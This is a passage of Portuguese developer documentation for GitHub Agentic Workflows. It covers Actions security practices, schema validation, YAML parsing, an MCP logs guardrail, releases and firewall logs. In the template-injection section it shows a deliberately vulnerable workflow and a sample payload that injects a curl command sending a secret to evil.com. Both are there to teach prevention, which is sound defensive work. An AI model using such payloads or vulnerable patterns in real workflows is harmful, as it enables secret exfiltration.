    if err := schema.Validate(data); err != nil {
        return fmt.Errorf("falha na validação de esquema: %w", err)
    }
    return nil
}
```

#### Validação Progressiva

Usado para aplicar múltiplas verificações de validação em sequência:

```go
func (c *Compiler) validateStrictMode(frontmatter map[string]any, networkPermissions *NetworkPermissions) error {
    if !c.strictMode {
        return nil
    }

    if err := c.validateStrictPermissions(frontmatter); err != nil {
        return err
    }

    if err := c.validateStrictNetwork(networkPermissions); err != nil {
        return err
    }

    return nil
}
```


## Melhores Práticas de Segurança

Esta seção descreve as melhores práticas de segurança para fluxos de trabalho do GitHub Actions com base em ferramentas de análise estática (actionlint, zizmor, poutine) e pesquisa de segurança.

### Prevenção de Injeção de Template

A injeção de template ocorre quando entrada não confiável é usada diretamente em expressões do GitHub Actions, permitindo que atacantes executem código arbitrário ou acessem segredos.

#### Entendendo o Risco

Expressões do GitHub Actions (`${{ }}`) são avaliadas antes da execução do fluxo de trabalho. Se dados não confiáveis (títulos de issue, corpos de PR, comentários) fluírem para essas expressões, atacantes podem injetar código malicioso.

#### Padrão Inseguro

```yaml
# VULNERÁVEL: Uso direto de entrada não confiável
name: Processar Issue
on:
  issues:
    types: [opened]

jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - name: Ecoar título da issue
        run: echo "${{ github.event.issue.title }}"
```

**Por que vulnerável:** O título da issue é interpolado diretamente. Um atacante pode injetar: `"; curl evil.com/?secret=$SECRET; echo "`

#### Padrão Seguro: Variáveis de Ambiente

```yaml
# SEGURO: Use variáveis de ambiente
name: Processar Issue
on:
  issues:
    types: [opened]

jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - name: Ecoar título da issue
        env:
          ISSUE_TITLE: ${{ github.event.issue.title }}
        run: echo "$ISSUE_TITLE"
```

**Por que seguro:** A expressão é avaliada em contexto controlado (atribuição de variável de ambiente). O shell recebe o valor como dado, não como código executável.

#### Comparação de Fluxo de Dados



#### Correções Recentes (Novembro de 2025)

Vulnerabilidades de injeção de template foram identificadas e corrigidas em:
- `copilot-session-insights.md` - Saída de passo passada através de variável de ambiente
- Padrão: Mova expressões de template de scripts bash para atribuições de variável de ambiente

Veja `scratchpad/template-injection-prevention.md` para análise detalhada e documentação de correção.

#### Padrão Seguro: Contexto Sanitizado (específico do gh-aw)

```yaml
# SEGURO: Use saída de contexto sanitizada
Analise este conteúdo: "${{ steps.sanitized.outputs.text }}"
```

A saída `steps.sanitized.outputs.text` é sanitizada automaticamente:
- @menções neutralizadas
- Gatilhos de bot protegidos
- Tags XML convertidas para formato seguro
- Apenas URIs HTTPS de domínios confiáveis
- Limites de conteúdo impostos (0.5MB, 65k linhas)
- Caracteres de controle removidos

#### Variáveis de Contexto Seguras

**Sempre seguras para usar em expressões:**
- `github.actor`
- `github.repository`
- `github.run_id`
- `github.run_number`
- `github.sha`

**Nunca seguras em expressões sem indireção de variável de ambiente:**
- `github.event.issue.title`
- `github.event.issue.body`
- `github.event.comment.body`
- `github.event.pull_request.title`
- `github.event.pull_request.body`
- `github.head_ref` (pode ser controlado por autores de PR)

### Melhores Práticas de Shell Script

#### SC2086: Use Aspas Duplas para Prevenir Globbing e Divisão de Palavras

**Inseguro:**
```yaml
steps:
  - name: Processar arquivos
    run: |
      FILES=$(ls *.txt)
      for file in $FILES; do
        echo $file
      done
```

**Por que vulnerável:** Variáveis podem ser divididas em espaços em branco, padrões glob podem ser expandidos, potencial injeção de comando.

**Seguro:**
```yaml
steps:
  - name: Processar arquivos
    run: |
      while IFS= read -r file; do
        echo "$file"
      done < <(find . -name "*.txt")
```

#### Lista de Verificação de Segurança de Shell Script

- Sempre coloque expansões de variável entre aspas: `"$VAR"`
- Use `[[ ]]` em vez de `[ ]` para condicionais
- Use `$()` em vez de crases para substituição de comando
- Habilite modo estrito: `set -euo pipefail`
- Valide e sanitize todas as entradas
- Use shellcheck para detectar problemas comuns

**Exemplo de script seguro:**
```yaml
steps:
  - name: Script Seguro
    env:
      INPUT_VALUE: ${{ github.event.inputs.value }}
    run: |
      set -euo pipefail

      if [[ ! "$INPUT_VALUE" =~ ^[a-zA-Z0-9_-]+$ ]]; then
        echo "Formato de entrada inválido"
        exit 1
      fi

      echo "Processando: $INPUT_VALUE"

      result=$(grep -r "$INPUT_VALUE" . || true)
      echo "$result"
```

### Segurança da Cadeia de Suprimentos

Ataques à cadeia de suprimentos visam dependências em pipelines de CI/CD.

#### Fixe Versões de Ações com SHA

**Inseguro:**
```yaml
steps:
  - uses: actions/checkout@v5           # Tag pode ser movida
  - uses: actions/setup-node@main       # Branch pode ser atualizada
```

**Por que vulnerável:** Tags podem ser deletadas e recriadas, branches podem ser forçados (force-pushed), a propriedade do repositório pode mudar.

**Seguro:**
```yaml
steps:
  - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1
  - uses: actions/setup-node@60edb5dd545a775178f52524783378180af0d1f8 # v4.0.2
```

**Por que seguro:** Commits SHA são imutáveis. Comentários indicam versão legível para atualizações.

#### Encontrando SHA para Ações

```bash
# Obtenha SHA para uma tag específica
git ls-remote https://github.com/actions/checkout v4.1.1

# Ou use a API do GitHub
curl -s https://api.github.com/repos/actions/checkout/git/refs/tags/v4.1.1
```

### Estrutura e Permissões do Fluxo de Trabalho

#### Princípio de Permissões Mínimas

**Inseguro:**
```yaml
name: CI
on: [push]

permissions: write-all
```

**Seguro:**
```yaml
name: CI
on: [push]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@sha
      - run: npm test
```

#### Permissões em Nível de Job

```yaml
name: CI/CD
on: [push]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@sha
      - run: npm test

  deploy:
    needs: test
    runs-on: ubuntu-latest
    permissions:
      contents: read
      deployments: write
    steps:
      - uses: actions/checkout@sha
      - run: npm run deploy
```

#### Permissões Disponíveis

| Permissão | Leitura | Escrita | Caso de Uso |
|------------|------|-------|----------|
| contents | Ler código | Enviar código | Acesso ao repositório |
| issues | Ler issues | Criar/editar issues | Gerenciamento de issue |
| pull-requests | Ler PRs | Criar/editar PRs | Gerenciamento de PR |
| actions | Ler execuções | Cancelar execuções | Gerenciamento de fluxo de trabalho |
| checks | Ler verificações | Criar verificações | Verificações de status |
| deployments | Ler implantações | Criar implantações | Gerenciamento de implantação |

### Integração de Análise Estática

Integre ferramentas de análise estática nos fluxos de trabalho de desenvolvimento e CI/CD:

#### Ferramentas Disponíveis

- **actionlint** - Analisa fluxos de trabalho do GitHub Actions, valida scripts shell
- **zizmor** - Scanner de vulnerabilidade de segurança para GitHub Actions
- **poutine** - Analisador de segurança da cadeia de suprimentos

#### Executando Localmente

```bash
# Execute scanners individuais
actionlint .github/workflows/*.yml
zizmor .github/workflows/
poutine analyze .github/workflows/

# Para fluxos de trabalho gh-aw
gh aw compile --actionlint
gh aw compile --zizmor
gh aw compile --poutine

# Modo estrito: falhe em descobertas
gh aw compile --strict --actionlint --zizmor --poutine
```

### Lista de Verificação de Segurança

#### Injeção de Template
- [ ] Nenhuma entrada não confiável em expressões `${{ }}`
- [ ] Dados não confiáveis passados via variáveis de ambiente
- [ ] Variáveis de contexto seguras usadas onde possível
- [ ] Contexto sanitizado usado (gh-aw: `steps.sanitized.outputs.text`)

#### Shell Scripts
- [ ] Todas as variáveis entre aspas: `"$VAR"`
- [ ] Nenhum aviso SC2086 (expansão não entre aspas)
- [ ] Modo estrito habilitado: `set -euo pipefail`
- [ ] Validação de entrada implementada
- [ ] shellcheck passa sem avisos

#### Cadeia de Suprimentos
- [ ] Todas as ações fixadas em SHA (não tags/branches)
- [ ] Comentários de versão adicionados às ações fixadas
- [ ] Ações de criadores verificados ou revisados
- [ ] Dependências verificadas quanto a vulnerabilidades

#### Permissões
- [ ] Permissões mínimas especificadas
- [ ] Sem permissões `write-all`
- [ ] Permissões em nível de job usadas quando necessário
- [ ] Tratamento de PR de fork seguro

#### Análise Estática
- [ ] actionlint passa (sem erros)
- [ ] zizmor passa (High/Critical abordados)
- [ ] poutine passa (cadeia de suprimentos segura)


## Mensagens de Saída Segura

Funções de saída segura lidam com operações de escrita da API do GitHub (criação de issues, discussões, comentários, PRs) a partir de conteúdo gerado por IA com padrões de mensagem consistentes.

### Fluxo de Mensagem de Saída Segura

O diagrama a seguir ilustra como o conteúdo gerado por IA flui através do sistema de saída segura para operações da API do GitHub:

```mermaid
graph TD
    A[Saída do Agente de IA] --> B{Modo Staged (Preview)?}
    B -->|Sim| C[Gerar Mensagens de Preview]
    B -->|Não| D[Processar Saída Segura]
    C --> E[Mostrar 🎭 Preview do Modo Staged]
    E --> F[Exibir no Resumo do Passo]
    D --> G{Tipo de Saída Segura}
    G -->|create-issue| H[Criar Issue no GitHub]
    G -->|create-discussion| I[Criar Discussão no GitHub]
    G -->|add-comment| J[Adicionar Comentário no GitHub]
    G -->|create-pull-request| K[Criar Pull Request]
    G -->|create-pr-review-comment| L[Criar Comentário de Revisão de PR]
    G -->|update-issue| M[Atualizar Issue no GitHub]
    H --> N[Aplicar Padrões de Mensagem]
    I --> N
    J --> N
    K --> N
    L --> N
    M --> N
    N --> O[Adicionar Rodapé de Atribuição de IA]
    N --> P[Adicionar Instruções de Instalação]
    N --> Q[Adicionar Links de Itens Relacionados]
    N --> R[Adicionar Preview de Patch]
    O --> S[Executar Operação da API do GitHub]
    P --> S
    Q --> S
    R --> S
    S --> T[Gerar Resumo de Sucesso]
    T --> U[Exibir no Resumo do Passo]
```

**Etapas do Fluxo:**
1. **Saída do Agente de IA** - IA gera conteúdo para operações no GitHub
2. **Verificação de Modo Staged** - Determina se a operação está em modo de preview
3. **Processamento de Saída Segura** - Roteia para o tipo de operação apropriado do GitHub
4. **Aplicação de Padrão de Mensagem** - Aplica formatação consistente (rodapés, instruções, links)
5. **Execução da API do GitHub** - Realiza a operação real do GitHub
6. **Resumo de Sucesso** - Relata resultados no resumo do passo do fluxo de trabalho

### Categorias de Mensagem

#### Rodapé de Atribuição de IA

Identifica o conteúdo como gerado por IA e vincula à execução do fluxo de trabalho:

```markdown
> IA gerada por [WorkflowName](run_url)
```

Com contexto de acionamento:
```markdown
> IA gerada por [WorkflowName](run_url) para #123
```

#### Instruções de Instalação de Fluxo de Trabalho

```markdown
>
> Para adicionar este fluxo de trabalho ao seu repositório, execute `gh aw add owner/repo/path@ref`. Veja o [guia de uso](https://github.github.com/gh-aw/setup/cli/).
```

#### Preview do Modo Staged

Todos os previews de modo staged usam formato consistente com emoji 🎭:

```markdown
## 🎭 Modo Staged: Preview de [Tipo de Operação]

Os seguintes [itens] seriam [ação] se o modo staged estivesse desabilitado:
```

#### Preview de Patch

Exibe patches git em corpos de pull request com limites de tamanho:

```markdown
<details><summary>Mostrar patch (45 linhas)</summary>

\`\`\`diff
diff --git a/src/auth.js b/src/auth.js
index 1234567..abcdefg 100644
--- a/src/auth.js
+++ b/src/auth.js
@@ -10,7 +10,10 @@ export async function login(username, password) {
-    throw new Error('Login failed');
+    if (response.status === 401) {
+      throw new Error('Credenciais inválidas');
+    }
+    throw new Error('Erro de login: ' + response.statusText);
\`\`\`

</details>
```

Limites: Máx. 500 linhas ou 2000 caracteres (truncado com "... (truncado)" se excedido)

### Princípios de Design

#### Consistência
- Todo conteúdo gerado por IA usa o mesmo formato de rodapé em bloco de citação
- Emoji 🎭 marca consistentemente o modo preview staged
- Padrões de URL correspondem às convenções do GitHub
- Resumos de passo seguem a mesma estrutura de cabeçalho e lista

#### Clareza
- Distinção clara entre preview e operações reais
- Mensagens de erro claras com orientação acionável
- Instruções de fallback úteis quando operações falham
- Rótulos de campo usam consistentemente texto em negrito

#### Capacidade de Descoberta
- Instruções de instalação incluídas em rodapés quando disponíveis
- Itens relacionados vinculados automaticamente através das saídas do fluxo de trabalho
- Resumos de passo fornecem acesso rápido aos itens criados
- Seções recolhíveis mantêm conteúdo grande gerenciável

#### Segurança
- Etiquetas sanitizadas para evitar @menções não intencionais
- Tamanhos de patch validados e truncados quando necessário
- Modo staged permite teste sem efeitos colaterais
- Fallbacks graciosos quando operações primárias falham


## Validação de Esquema

Todos os três arquivos de esquema JSON impõem validação rigorosa com `"additionalProperties": false` na raiz, evitando que erros de digitação e campos indefinidos passem pela validação silenciosamente.

### Arquivos de Esquema

| Arquivo | Propósito |
|------|---------|
| `pkg/parser/schemas/main_workflow_schema.json` | Valida frontmatter de fluxo de trabalho agentic em arquivos `.github/workflows/*.md` |
| `pkg/parser/schemas/mcp_config_schema.json` | Valida configuração de servidor MCP (Protocolo de Contexto de Modelo) |

### Como Funciona

Quando `"additionalProperties": false` é definido no nível raiz, o validador rejeita quaisquer propriedades não definidas explicitamente na seção `properties` do esquema. Isso captura erros de digitação comuns:

- `permisions` em vez de `permissions`
- `engnie` em vez de `engine`
- `toolz` em vez de `tools`
- `timeout_minute` em vez de `timeout-minutes`
- `runs_on` em vez de `runs-on`
- `safe_outputs` em vez de `safe-outputs`

### Exemplo de Erro de Validação

```bash
$ gh aw compile workflow-with-typo.md
✗ erro: Propriedades desconhecidas: toolz, engnie, permisions. Campos válidos são: tools, engine, permissions, ...
```

### Processo de Validação



### Esquema Embutido no Binário

Os esquemas são embutidos no binário Go usando diretivas `//go:embed`:

```go
//go:embed schemas/main_workflow_schema.json
var mainWorkflowSchema string
```

Isso significa:
- Alterações no esquema requerem a execução de `make build` para entrarem em vigor
- Esquemas são validados em tempo de execução, não em tempo de build
- Nenhum arquivo JSON externo precisa ser distribuído com o binário

### Adicionando Novos Campos

Ao adicionar novos campos aos esquemas:

1. Atualize o arquivo JSON do esquema com a nova definição de propriedade
2. Recompile o binário com `make build`
3. Adicione casos de teste para verificar se o novo campo funciona
4. Atualize a documentação se o campo for voltado para o usuário


## Compatibilidade YAML

O YAML possui duas versões principais com comportamento de análise booleana incompatível que afeta a validação do fluxo de trabalho.

### O Problema Central

#### Problema de Análise Booleana do YAML 1.1

No YAML 1.1, certas strings simples são convertidas automaticamente para valores booleanos. A chave de gatilho do fluxo de trabalho `on:` pode ser mal interpretada como o valor booleano `true` em vez da string `"on"`.

**Exemplo:**
```python
# Python yaml.safe_load (parser YAML 1.1)
import yaml

content = """
on:
  issues:
    types: [opened]
"""

result = yaml.safe_load(content)
print(result)
# Saída: {True: {'issues': {'types': ['opened']}}}
#          ^^^^ A chave é booleano True, não a string "on"!
```

Isso cria falsos positivos ao validar fluxos de trabalho com ferramentas baseadas em Python.

#### Comportamento Correto do YAML 1.2

Parsers YAML 1.2 tratam `on`, `off`, `yes` e `no` como strings regulares, não booleanos. Apenas literais booleanos explícitos `true` e `false` são tratados como booleanos.

**Exemplo:**
```go
// Go goccy/go-yaml (parser YAML 1.2) - Usado pelo gh-aw
var result map[string]interface{}
yaml.Unmarshal([]byte(content), &result)

fmt.Printf("%+v\n", result)
// Saída: map[on:map[issues:map[types:[opened]]]]
//         ^^^ A chave é a string "on" ✓
```

### Como o gh-aw Lida com Isso

O GitHub Agentic Workflows usa **`goccy/go-yaml` v1.18.0**, que é um **parser compatível com YAML 1.2**:

- ✅ `on:` é analisado corretamente como uma chave de string, não um booleano
- ✅ A validação do frontmatter do fluxo de trabalho funciona corretamente
- ✅ O YAML do GitHub Actions é compatível (O GitHub Actions também usa análise YAML 1.2)

### Fluxo de Compatibilidade



### Palavras-chave Afetadas

O YAML 1.1 trata estas como booleanos (analisados como `true` ou `false`):

**Analisado como `true`:** on, yes, y, Y, YES, Yes, ON, On
**Analisado como `false`:** off, no, n, N, NO, No, OFF, Off

O YAML 1.2 trata todos os acima como strings. Apenas estes são booleanos: `true`, `false`

### Recomendações

#### Para Autores de Fluxo de Trabalho

1. **Use o compilador do gh-aw para validação:**
   ```bash
   gh aw compile workflow.md
   ```

2. **Não confie em Python yaml.safe_load para validação** - ele fornecerá falsos positivos para a chave de gatilho `on:`.

3. **Use booleanos explícitos quando quiser valores booleanos:**
   ```yaml
   enabled: true      # Booleano explícito
   disabled: false    # Booleano explícito

   # Evite para valores booleanos:
   enabled: yes       # Pode ser confuso entre parsers
   disabled: no       # Pode ser confuso entre parsers
   ```

#### Para Desenvolvedores de Ferramentas

1. **Use parsers YAML 1.2 para integração com gh-aw:**
   - Go: `github.com/goccy/go-yaml`
   - Python: `ruamel.yaml` (com modo YAML 1.2)
   - JavaScript: pacote `yaml` v2+ (YAML 1.2 por padrão)
   - Ruby: `Psych` (YAML 1.2 por padrão no Ruby 2.6+)

2. **Documente a versão do parser na sua ferramenta**

3. **Considere adicionar modo de compatibilidade** para alternar entre análise YAML 1.1 e 1.2

## Guardrail de Logs MCP

O comando `logs` do servidor MCP inclui um guardrail automático para evitar respostas sobrecarregadas ao buscar logs de fluxo de trabalho.

### Como Funciona



### Operação Normal (Saída ≤ Limite de Tokens)

Quando a saída está dentro do limite de tokens (padrão: 12000 tokens), o comando retorna dados JSON completos:

```json
{
  "summary": {
    "total_runs": 5,
    "total_duration": "2h30m",
    "total_tokens": 45000,
    "total_cost": 0.23
  },
  "runs": [...],
  "tool_usage": [...]
}
```

### Guardrail Acionado (Saída > Limite de Tokens)

Quando a saída excede o limite de tokens, o comando retorna uma resposta estruturada com:

```json
{
  "message": "⚠️  O tamanho da saída (15000 tokens) excede o limite (12000 tokens). Para reduzir o tamanho da saída, use o parâmetro 'jq' com uma das consultas sugeridas abaixo.",
  "output_tokens": 15000,
  "output_size_limit": 12000,
  "schema": { ... },
  "suggested_queries": [
    {
      "description": "Obter apenas estatísticas de resumo",
      "query": ".summary",
      "example": "Use o parâmetro jq: \".summary\""
    },
    ...
  ]
}
```

### Configurando o Limite de Tokens

O limite padrão é 12000 tokens (aproximadamente 48KB de texto). Personalize usando o parâmetro `max_tokens`:

```json
{
  "name": "logs",
  "arguments": {
    "count": 100,
    "max_tokens": 20000
  }
}
```

A estimativa de tokens usa aproximadamente 4 caracteres por token (regra de ouro da OpenAI).

### Usando o Parâmetro jq

Filtre a saída usando a sintaxe jq:

**Obter apenas estatísticas de resumo:**
```json
{ "jq": ".summary" }
```

**Obter IDs de execução e informações básicas:**
```json
{ "jq": ".runs | map({database_id, workflow_name, status})" }
```

**Obter apenas execuções falhas:**
```json
{ "jq": ".runs | map(select(.conclusion == \"failure\"))" }
```

**Obter execuções de alto uso de tokens:**
```json
{ "jq": ".runs | map(select(.token_usage > 10000))" }
```

### Detalhes de Implementação

**Constantes:**
- `DefaultMaxMCPLogsOutputTokens`: 12000 tokens (limite padrão)
- `CharsPerToken`: 4 caracteres por token (fator de estimativa)

**Arquivos:**
- `pkg/cli/mcp_logs_guardrail.go` - Implementação principal do guardrail
- `pkg/cli/mcp_logs_guardrail_test.go` - Testes unitários
- `pkg/cli/mcp_logs_guardrail_integration_test.go` - Testes de integração
- `pkg/cli/mcp_server.go` - Integração com servidor MCP

### Benefícios

1. Previne respostas sobrecarregadas para modelos de IA
2. Fornece orientação com filtros específicos
3. Autodocumentado com descrição de esquema
4. Preserva funcionalidade com filtragem jq
5. Mensagem transparente sobre o motivo do acionamento do guardrail


## Gerenciamento de Release

O projeto usa um sistema de release minimalista baseado em mudanças (changesets) inspirado no `@changesets/cli`.

### Comandos

#### version (Apenas Preview)

O comando `version` opera em modo de preview e nunca modifica arquivos:

```bash
node scripts/changeset.js version
# Ou
make version
```

Este comando:
- Lê todos os arquivos changeset do diretório `.changeset/`
- Determina o incremento de versão apropriado (major > minor > patch)
- Mostra um preview da entrada do CHANGELOG
- Nunca modifica arquivos

#### release [tipo] [--yes|-y]

O comando `release` cria um release real:

```bash
node scripts/changeset.js release
# Ou (recomendado - executa testes antes)
make release
```

Este comando:
- Verifica pré-requisitos (árvore limpa, branch main)
- Atualiza `CHANGELOG.md` com a nova versão e mudanças
- Deleta arquivos changeset processados (se existirem)
- Commita automaticamente as mudanças
- Cria e envia (push) uma tag git para o release

**Flags:**
- `--yes` ou `-y`: Pula o prompt de confirmação

### Fluxo de Trabalho de Release



### Formato de Arquivo Changeset

Arquivos changeset são arquivos markdown no diretório `.changeset/` com frontmatter YAML:

```markdown
"gh-aw": patch

Breve descrição da mudança
```

**Tipos de incremento:**
- `patch` - Correções de bugs e mudanças menores (0.0.x)
- `minor` - Novas funcionalidades, compatíveis com versões anteriores (0.x.0)
- `major` - Mudanças de quebra (breaking changes) (x.0.0)

### Pré-requisitos para Release

Ao executar `release`, o script verifica:

1. **Árvore de trabalho limpa:** Todas as mudanças devem ser commitadas ou guardadas (stash)
2. **Na branch main:** Deve estar na branch `main` para criar um release

### Releasing Sem Changesets

Para releases de manutenção com atualizações de dependência:

```bash
# Padrão para release patch
node scripts/changeset.js release

# Ou especifique o tipo de release explicitamente
node scripts/changeset.js release minor

# Pular confirmação
node scripts/changeset.js release --yes
```

O script irá:
- Assumir release patch se nenhum tipo for especificado
- Adicionar uma entrada genérica "Maintenance release" ao CHANGELOG.md
- Commitar as mudanças
- Criar uma tag git
- Enviar a tag para o remoto


## Análise de Log de Firewall

O analisador de log de firewall fornece análise de logs de tráfego de rede de execuções de fluxo de trabalho agentic.

### Formato de Log

Logs de firewall usam formato separado por espaço com 10 campos:

```
timestamp client_ip:port domain dest_ip:port proto method status decision url user_agent
```

**Exemplo:**
```
1761332530.474 172.30.0.20:35288 api.enterprise.githubcopilot.com:443 140.82.112.22:443 1.1 CONNECT 200 TCP_TUNNEL:HIER_DIRECT api.enterprise.githubcopilot.com:443 "-"
```

### Descrição dos Campos

1. **timestamp** - Timestamp Unix com decimal (por exemplo, "1761332530.474")
2. **client_ip:port** - IP e porta do cliente ou "-"
3. **domain** - Domínio alvo:porta ou "-"
4. **dest_ip:port** - IP e porta de destino ou "-"
5. **proto** - Versão do protocolo (por exemplo, "1.1") ou "-"
6. **method** - Método HTTP (por exemplo, "CONNECT", "GET") ou "-"
7. **status** - Código de status HTTP (por exemplo, "200", "403") ou "0"
8. **decision** - Decisão do proxy (por exemplo, "TCP_TUNNEL:HIER_DIRECT") ou "-"
9. **url** - URL de solicitação ou "-"
10. **user_agent** - String do user agent (entre aspas) ou "-"

### Classificação de Solicitação

